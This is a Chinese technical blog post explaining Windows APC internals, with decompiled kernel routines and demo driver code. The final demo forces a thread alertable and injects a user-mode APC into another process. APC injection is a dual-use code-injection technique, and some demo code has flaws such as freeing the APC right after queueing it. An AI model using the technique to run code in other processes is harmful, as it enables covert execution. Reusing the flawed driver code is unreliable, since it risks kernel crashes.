# 从APC到APC注入-先知社区

> **来源**: https://xz.aliyun.com/news/16387  
> **文章ID**: 16387

---

# APC

如果不调用WindowsAPI 且 屏蔽中断 线程在不出现异常的情况下可以一直跑下去 那么我们该如何杀死线程呢?

`APC(Asynchronous Procedure Calls)`异步过程调用 是Windows提供的一种机制，允许在某个线程上下文中执行异步函数

APC分`用户模式`和`内核模式`

我们先来看内核的

`_KTHREAD`中的`ApcState`成员存储了一个双向链表数组

一个是内核APC链表 一个是用户APC链表




`_KAPC_STATE`中的Process代表挂靠的进程

`KernelApcInProgress` 代表内核APC是否正在执行

`KernelApcPending` 代表内核APC链表中是否有值 User同理

`_KTHRAD`中其它几个和APC相关的成员含义如下

```
UCHAR Alerted[2] 分别代表内核和用户是否处于可警告状态
ULONG Alertable 是否可被唤醒
ULONG ApcQueueable 是否允许APC插入队列
_KAPC_STATE* ApcStatePointer[2] 存储着 ApcState 和 SavedApcState 
UCHAR ApcStateIndex 是否挂靠 表明当前使用的是ApcStatePointer 还是 SavedApcState 
ULONG ApcInterruptRequest 此线程是否能执行APC
SHORT KernelApcDisable 关闭内核APC
SHORT SpecialApcDisable 关闭紧急APC
ULONG ApcQueueable 是否有APC队列

```

APC的结构如下

```
struct _KAPC
{
    UCHAR Type;                                                             //0x0
    UCHAR SpareByte0;                                                       //0x1
    UCHAR Size;                                                             //0x2
    UCHAR SpareByte1;                                                       //0x3
    ULONG SpareLong0;                                                       //0x4
    struct _KTHREAD* Thread;                                                //0x8
    struct _LIST_ENTRY ApcListEntry;                                        //0xc
    VOID (*KernelRoutine)(struct _KAPC* arg1, VOID (**arg2)(VOID* arg1, VOID* arg2, VOID* arg3), VOID** arg3, VOID** arg4, VOID** arg5); //0x14
    VOID (*RundownRoutine)(struct _KAPC* arg1);                             //0x18
    VOID (*NormalRoutine)(VOID* arg1, VOID* arg2, VOID* arg3);              //0x1c
    VOID* NormalContext;                                                    //0x20
    VOID* SystemArgument1;                                                  //0x24
    VOID* SystemArgument2;                                                  //0x28
    CHAR ApcStateIndex;                                                     //0x2c
    CHAR ApcMode;                                                           //0x2d
    UCHAR Inserted;                                                         //0x2e
};

```

`Thread` APC属于那个线程

`ApcListEntry` `_KAPC_STATE`中`APCListHead`指向这里

`KernelRoutine` 内核回调

`NormalRoutine` 常规APC回调

`NormalContext SystemArgument1 SystemArgument2` 参数

`ApcStateIndex` `_KAPC_ENVIRONMENT`枚举的值之一

`ApcMode` 用户还是内核

`Inserted` 是否被插入过

内核APC如果没填NormalContext 就是紧急内核APC 放到链表头部紧急区域尾部 否则直接链表尾部

用户APC如果不填 并且 `KernelRoutine` 为 `PsExitSpecialApc` 的地址 那么插入到头部紧急区域头部

## \_KAPC\_ENVIRONMENT

```
typedef enum _KAPC_ENVIRONMENT
{
    OriginalApcEnvironment,
    AttachedApcEnvironment,
    CurrentApcEnvironment,
    InsertApcEnvironment
} KAPC_ENVIRONMENT;

```

`OriginalApcEnvironment` 插入到不挂靠的环境

`AttachedApcEnvironment` 插入到挂靠的环境 初始化时插入

`CurrentApcEnvironment` 当前环境

`InsertApcEnvironment` 初始化时不插入 调用insertApc时候判断是插入不挂靠的还是挂靠的环境

## KeInitializeApc

```
VOID
KeInitializeApc (
    __out PRKAPC Apc,
    __in PRKTHREAD Thread,
    __in KAPC_ENVIRONMENT Environment,
    __in PKKERNEL_ROUTINE KernelRoutine,
    __in_opt PKRUNDOWN_ROUTINE RundownRoutine,
    __in_opt PKNORMAL_ROUTINE NormalRoutine,
    __in_opt KPROCESSOR_MODE ApcMode,
    __in_opt PVOID NormalContext
    )

```



逻辑很简单 就是给传入的Apc结构赋值

# demo

下面我们写个demo

需要用到的两个API`KeInitializeApc` `KeInsertQueueApc` 都是导出未文档化的 先获取函数

```
#pragma once
#include <ntifs.h>    

typedef enum _KAPC_ENVIRONMENT {
    OriginalApcEnvironment,
    AttachedApcEnvironment,
    CurrentApcEnvironment,
    InsertApcEnvironment
} KAPC_ENVIRONMENT;

typedef
VOID
(*PKNORMAL_ROUTINE) (
    IN PVOID NormalContext,
    IN PVOID SystemArgument1,
    IN PVOID SystemArgument2
    );

typedef
VOID
(*PKKERNEL_ROUTINE) (
    IN struct _KAPC* Apc,
    IN OUT PKNORMAL_ROUTINE* NormalRoutine,
    IN OUT PVOID* NormalContext,
    IN OUT PVOID* SystemArgument1,
    IN OUT PVOID* SystemArgument2
    );

typedef
VOID
(*PKRUNDOWN_ROUTINE) (
    IN struct _KAPC* Apc
    );

extern VOID KeInitializeApc(
    __out PRKAPC Apc,
    __in PRKTHREAD Thread,
    __in KAPC_ENVIRONMENT Environment,
    __in PKKERNEL_ROUTINE KernelRoutine,
    __in_opt PKRUNDOWN_ROUTINE RundownRoutine,
    __in_opt PKNORMAL_ROUTINE NormalRoutine,
    __in_opt KPROCESSOR_MODE ApcMode,
    __in_opt PVOID NormalContext
);

extern BOOLEAN KeInsertQueueApc(
    __inout PRKAPC Apc,
    __in_opt PVOID SystemArgument1,
    __in_opt PVOID SystemArgument2,
    __in KPRIORITY Increment
);

```

```
VOID TestRoutine(
    IN struct _KAPC* Apc,
    IN OUT PKNORMAL_ROUTINE* NormalRoutine,
    IN OUT PVOID* NormalContext,
    IN OUT PVOID* SystemArgument1,
    IN OUT PVOID* SystemArgument2
    ) {
    DbgPrint("TestRoutine\n");
}
NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    PKAPC pKapc = ExAllocatePool(NonPagedPool, sizeof(KAPC));
    memset(pKapc, 0, sizeof(KAPC));


    PETHREAD pEthread = NULL;
    NTSTATUS status = PsLookupThreadByThreadId(3476, &pEthread);
    if (NT_SUCCESS(status)) {
        ObDereferenceObject(pEthread);
    }

    KeInitializeApc(pKapc, pEthread, OriginalApcEnvironment, (PKKERNEL_ROUTINE)TestRoutine, NULL, NULL, KernelMode, NULL);
    KeInsertQueueApc(pKapc, NULL, NULL, 0);
    ExFreePool(pKapc);

    DriverObject->DriverUnload = UnloadDriver;

    return STATUS_SUCCESS;
}

```



这里有个问题 为什么我们一插入就跑起来了?

要解答这个疑问 我们需要查看`KeInsertQueueApc`的实现

## KeInsertQueueApc



内部调用了`KiInsertQueueApc`

根据相关条件插入对应的链表 了解个大概即可

```
char __fastcall KiInsertQueueApc(_KPCR *kpcr, KAPC *kapc, char irql)
{
  _KTHREAD *Thread; // esi
  _KAPC_STATE *ApcState; // ecx
  char ApcMode; // bl
  _LIST_ENTRY *v7; // ecx
  _LIST_ENTRY *Flink; // edx
  _LIST_ENTRY *ApcList; // ecx
  _LIST_ENTRY *Blink; // edx
  _LIST_ENTRY *v11; // ecx
  _LIST_ENTRY *v12; // eax
  _LIST_ENTRY *v13; // edx
  unsigned int ThreadApcStateIndex; // eax
  unsigned int ApcStateIndex; // ecx
  volatile __int32 *v16; // ebx
  volatile __int32 *p_ThreadLock; // edi
  int v18; // ebx
  BOOLEAN isSignaled; // al
  ULONG CurrentProcessorNumber; // eax
  volatile unsigned int NextProcessor; // esi
  unsigned int v22; // ecx
  int v23; // eax
  _KPRCB *Prcb; // eax
  char hasNorRoutine; // [esp+Fh] [ebp-19h]
  BOOLEAN v27; // [esp+Fh] [ebp-19h]
  int v28; // [esp+10h] [ebp-18h]
  __int32 v30; // [esp+18h] [ebp-10h] BYREF
  _WORD v31[4]; // [esp+1Ch] [ebp-Ch] BYREF
  int v32; // [esp+24h] [ebp-4h]

  Thread = kapc->Thread;
  if ( kapc->ApcStateIndex == InsertApcEnvironment )
    kapc->ApcStateIndex = Thread->ApcStateIndex;
  ApcState = Thread->ApcStatePointer[kapc->ApcStateIndex];
  ApcMode = kapc->ApcMode;
  if ( kapc->NormalRoutine )                    // 判断是否有添加NormalRoutine
  {
    hasNorRoutine = 1;
    if ( ApcMode && (int (__stdcall *)(PVOID, int, int, int, int))kapc->KernelRoutine == PsExitSpecialApc )
    {                                           // 用户APC 且 KernelRoutine == PsExitSpecialApc地址 
      Thread->ApcState.UserApcPending = 1;
      v7 = &ApcState->ApcListHead[ApcMode];
      Flink = v7->Flink;
      kapc->ApcListEntry.Flink = v7->Flink;
      kapc->ApcListEntry.Blink = v7;
      Flink->Blink = &kapc->ApcListEntry;
      v7->Flink = &kapc->ApcListEntry;
    }
    else
    {
      ApcList = &ApcState->ApcListHead[ApcMode];
      Blink = ApcList->Blink;
      kapc->ApcListEntry.Flink = ApcList;       
      kapc->ApcListEntry.Blink = Blink;
      Blink->Flink = &kapc->ApcListEntry;
      ApcList->Blink = &kapc->ApcListEntry;
    }
  }
  else
  {
    v11 = &ApcState->ApcListHead[ApcMode];
    v12 = v11->Blink;
    hasNorRoutine = 0;
    while ( v12 != v11 && v12[2].Flink )
      v12 = v12->Blink;
    v13 = v12->Flink;
    kapc->ApcListEntry.Flink = v12->Flink;
    kapc->ApcListEntry.Blink = v12;
    v13->Blink = &kapc->ApcListEntry;
    v12->Flink = &kapc->ApcListEntry;
  }
  ThreadApcStateIndex = Thread->ApcStateIndex;
  ApcStateIndex = kapc->ApcStateIndex;
  if ( ApcStateIndex == ThreadApcStateIndex )
  {
    LOBYTE(ThreadApcStateIndex) = (_BYTE)kpcr;
    if ( Thread == kpcr->NtTib.StackBase )      // 判断线程环境和要插入的是否是同一个
    {
      if ( !ApcMode && (!*(_DWORD *)&Thread->132 || !hasNorRoutine && !Thread->SpecialApcDisable) )
      {                                         // 判断是否是紧急APC 0环且无NormalRoutine 且紧急APC没关闭
        Thread->ApcState.KernelApcPending = 1;
        if ( !irql )
        {
          *(_DWORD *)&Thread->0 |= 0x100u;      // 将ApcInterruptRequest位置1
          return ThreadApcStateIndex;
        }
LABEL_55:                                       // iqrl > 0
        LOBYTE(ApcStateIndex) = 1;
        LOBYTE(ThreadApcStateIndex) = HalRequestSoftwareInterrupt(ApcStateIndex);// 挂靠是1 非挂靠是0 提升当前irql到指定值
      }
    }
    else if ( ApcMode )                         // 线程环境和要插入的不是同一个 且是用户apc
    {
      LOBYTE(ThreadApcStateIndex) = Thread->State;
      if ( (_BYTE)ThreadApcStateIndex == Waiting )// 上面声明的时候是ApcStateIndex
                                                // 这里重新赋值为线程状态了
      {
        v27 = 0;
        p_ThreadLock = (volatile __int32 *)&Thread->ThreadLock;
        v18 = 0;
        while ( _InterlockedExchange(p_ThreadLock, 1) )
        {
          do
          {
            if ( (++v18 & HvlLongSpinCountMask) != 0 || (HvlEnlightenments & 0x40) == 0 )
              _mm_pause();
            else
              HvlNotifyLongSpinWait(v18);
          }
          while ( *p_ThreadLock );
        }
        if ( Thread->State == Waiting
          && Thread->WaitMode == 1
          && ((*(_BYTE *)&Thread->0 & 0x20) != 0 || Thread->ApcState.UserApcPending) )
        {                                       // 如果线程状态为等待 且 用户apc 那么在 Alertable为1 或者  UserApcPending为1的情况下
          isSignaled = KiSignalThread(0, Thread, (_KPRCB *)kpcr, 192);// 改变线程等待状态到延迟就绪
          Thread->WaitRegister.Flags |= 0x20u;  // UserApc位
          v27 = isSignaled;
        }
        LOBYTE(ThreadApcStateIndex) = 0;
        _InterlockedAnd(p_ThreadLock, 0);
        if ( v27 )
          Thread->ApcState.UserApcPending = 1;
      }
    }
    else                                        // 线程环境和要插入的不是同一个 且是内核apc
    {
      Thread->ApcState.KernelApcPending = 1;
      _InterlockedExchange(&v30, (__int32)kpcr);
      ThreadApcStateIndex = Thread->State;
      if ( ThreadApcStateIndex == Running )
      {
        CurrentProcessorNumber = KeGetCurrentProcessorNumberEx(0);// 当前核编号
        ApcStateIndex = Thread->NextProcessor;  // APC要插入的线程下次运行的核编号是否等于当前核编号
        if ( CurrentProcessorNumber == ApcStateIndex )
          goto LABEL_55;
        NextProcessor = Thread->NextProcessor;
        v31[0] = 1;
        v31[1] = 1;
        v32 = 0;
        v22 = (unsigned int)KiProcessorIndexToNumberMappingTable[NextProcessor] >> 6;
        v23 = KiProcessorIndexToNumberMappingTable[NextProcessor] & 0x3F;
        if ( v22 )
          v31[0] = v22 + 1;
        *(&v32 + v22) |= KiMask32Array[v23];
        Prcb = KeGetPcr()->Prcb;
        ++Prcb->IpiSendSoftwareInterruptCount;
        LOBYTE(ThreadApcStateIndex) = KiIpiSend(v31);// 中断
      }
      else if ( ThreadApcStateIndex == Waiting )
      {
        v28 = 0;
        v16 = (volatile __int32 *)&Thread->ThreadLock;
        while ( _InterlockedExchange(v16, 1) )
        {
          do
          {
            if ( (++v28 & HvlLongSpinCountMask) != 0 || (HvlEnlightenments & 0x40) == 0 )
              _mm_pause();
            else
              HvlNotifyLongSpinWait(v28);
          }
          while ( *v16 );
        }
        if ( Thread->State == Waiting
          && !Thread->WaitIrql
          && !Thread->SpecialApcDisable
          && (!kapc->NormalRoutine || !Thread->KernelApcDisable && !Thread->ApcState.KernelApcInProgress) )
        {
          KiSignalThread(0, Thread, (_KPRCB *)kpcr, 256);
          Thread->WaitRegister.Flags |= 0x10u;  // Apc位
        }
        LOBYTE(ThreadApcStateIndex) = 0;
        _InterlockedAnd(v16, 0);
      }
    }
  }
  return ThreadApcStateIndex;
}

```

`KeInsertQueueApc`调用了`KiExitDispatcher` 其内部调用了`KiDeliverApc`



这是APC真正执行的地方

## KiDeliverApc

也是了解个大概即可 这里看wrk更清晰一些

遍历apc链表 逐一取出调用

先调紧急apc 然后内核 然后进3环用户

紧急的IRQL等级是2 所以线程切换打不断







现在我们的问题解决了 由于我们手动调用`KeInsertQueueApc`在内部最终调用了`KiDeliverApc` 所以一插入就执行了

而用户APC仅仅是初始化了结构



`KiInitializeUserApc` 中修改了TrapFrame



`KeTestAlertThread`



当某个时刻从0环返回3环

`KiServiceExit`会从Trapframe中取值 此时拿到的EIP已经是`KeUserApcDispatcher`了 也就是去执行APC了



# 0环插入用户APC

如果目标使用SleepEx之类的函数 设置`Alertable`为1那么我们可以很轻松的让APC执行

如果不是的话我们手动置一下

手动修改KTHREAD中Alertable的值为1

插入后通过`KeAlertThread`唤醒线程

```
#include "stdafx.h"
#include <Windows.h>

void test(PVOID param1,PVOID param2,PVOID param3){
    printf("xixi\n");
    MessageBoxA(0,0,0,0);
}

int main(){ 
    printf("%d\n",GetCurrentThreadId());
    printf("%x\n",test);
    system("pause");
    while(1){
        printf("-------------------\n");
        Sleep(10000);
    }
}

```

```
#include "definition.h"


NTSTATUS UnloadDriver(PDRIVER_OBJECT DriverObject)
{
    DbgPrint("Unload!");
}

VOID TestRoutine(
    IN struct _KAPC* Apc,
    IN OUT PKNORMAL_ROUTINE* NormalRoutine,
    IN OUT PVOID* NormalContext,
    IN OUT PVOID* SystemArgument1,
    IN OUT PVOID* SystemArgument2
) {
    DbgPrint("TestRoutine\n");
}

PETHREAD getThreadByEid(ULONG tid) {
    PETHREAD thread = NULL;
    NTSTATUS status = PsLookupThreadByThreadId(tid, &thread);
    if (NT_SUCCESS(status)) {
        ObDereferenceObject(thread);
    }
    return thread;

}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    PKAPC pKapc = ExAllocatePool(NonPagedPool, sizeof(KAPC));
    memset(pKapc, 0, sizeof(KAPC));


    pETHREAD pEthread = NULL;
    NTSTATUS status = PsLookupThreadByThreadId(3340, &pEthread);


    KeInitializeApc(pKapc, pEthread, OriginalApcEnvironment, (PKKERNEL_ROUTINE)TestRoutine, NULL, (PKNORMAL_ROUTINE)0x401000, UserMode, (PVOID)0);


    pEthread->Tcb.Alertable = 1;
    KeInsertQueueApc(pKapc, NULL, NULL, 0);
    KeAlertThread(pEthread, UserMode);

    ExFreePool(pKapc);

    if (NT_SUCCESS(status)) {
        ObDereferenceObject(pEthread);
    }


    DriverObject->DriverUnload = UnloadDriver;

    return STATUS_SUCCESS;
}

```

